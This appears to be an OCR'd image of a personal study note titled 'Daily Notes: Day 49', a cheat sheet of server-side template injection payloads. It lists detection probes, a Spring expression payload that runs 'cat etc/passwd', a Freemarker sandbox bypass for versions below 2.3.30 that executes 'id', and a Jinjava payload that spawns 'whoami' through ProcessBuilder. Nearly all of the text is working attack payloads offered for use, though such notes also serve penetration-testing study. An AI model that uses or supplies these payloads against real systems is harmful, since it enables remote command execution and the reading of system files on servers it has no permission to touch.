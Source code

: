 Daily Notes : Day 49 
SSTI PAYLOADS - Part 1

Detection:

{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}

Retrieve /etc/passwd : 
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

Freemarker - Sandbox bypass
only works on Freemarker versions below 2.3.30
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}

JinjaJava :
{{'a'.toUpperCase()}} would result in 'A'

Jinjava - Command execution : 
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}